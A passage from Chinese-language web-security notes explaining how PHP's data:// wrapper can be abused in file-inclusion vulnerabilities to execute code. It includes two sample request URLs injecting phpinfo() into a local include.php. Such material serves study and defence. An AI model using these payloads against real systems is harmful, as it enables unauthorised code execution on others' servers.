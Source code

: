 - **条件**：

  - `allow_url_fopen`:on
  - `allow_url_include` :on

- **作用**：自`PHP>=5.2.0`起，可以使用`data://`数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。

- **用法**：

  ```awk
  data://text/plain,
  data://text/plain;base64,
  ```

- **示例**：

  1. `data://text/plain,`

     ```http
     http://127.0.0.1/include.php?file=data://text/plain,<?php%20phpinfo();?>
     ```

     ![图片描述](PictureFile/【Web】TOP漏洞.assets/bVbrQBB.jpeg)

  2. `data://text/plain;base64,`

     ```http
     http://127.0.0.1/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
     ```

     ![图片描述](PictureFile/【Web】TOP漏洞.assets/bVbrQBD.jpeg)
